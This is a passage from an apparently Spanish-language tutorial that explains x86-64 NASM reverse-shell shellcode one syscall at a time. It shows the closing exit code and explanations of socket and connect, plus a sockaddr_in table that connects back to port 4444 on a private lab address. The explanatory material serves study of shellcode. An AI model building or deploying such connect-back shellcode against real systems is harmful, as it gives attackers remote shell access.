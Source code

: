 ```nasm
    syscall

.done:
    ; Si execve falla (no debería), salimos limpiamente
    mov rax, 60        ; syscall: exit
    xor rdi, rdi       ; exit code = 0
    syscall
```

---

## Desglose por Syscalls

### 1. SOCKET (RAX 41)

Crea un **objeto de comunicación** y devuelve un file descriptor (FD). En este caso, un socket TCP/IPv4.

**Argumentos:**
- `rdi = 2` → `AF_INET` (familia IPv4)
- `rsi = 1` → `SOCK_STREAM` (TCP, orientado a conexión)
- `rdx = 0` → Protocolo por defecto (TCP para `SOCK_STREAM`)

**Retorno:**
- `rax ≥ 0` → FD del socket creado
- `rax < 0` → Error (EAFNOSUPPORT, EMFILE, etc.)

El socket recién creado es solo una estructura en memoria del kernel. No tiene IP ni puerto asignados hasta que se haga `bind()` (para servidores) o `connect()` (para clientes).

---

### 2. CONNECT (RAX 42)

Inicia el **handshake TCP** (SYN → SYN/ACK → ACK) con el servidor remoto especificado en la estructura `sockaddr_in`.

**Argumentos:**
- `rdi = r8` → FD del socket (devuelto por `socket()`)
- `rsi = rsp` → Puntero a `struct sockaddr_in` (16 bytes en la pila)
- `rdx = 16` → Tamaño de la estructura

**Estructura sockaddr_in (big-endian):**

| Offset | Campo | Valor | Descripción |
|--------|-------|-------|-------------|
| 0-1 | `sin_family` | `0x0002` | AF_INET (2) |
| 2-3 | `sin_port` | `0x5c11` | Puerto 4444 (htons) |
| 4-7 | `sin_addr` | `0x8d12a8c0` | 192.168.18.141 (orden de red) |
| 8-15 | `sin_zero` | `0x00...` | Padding (8 bytes) |

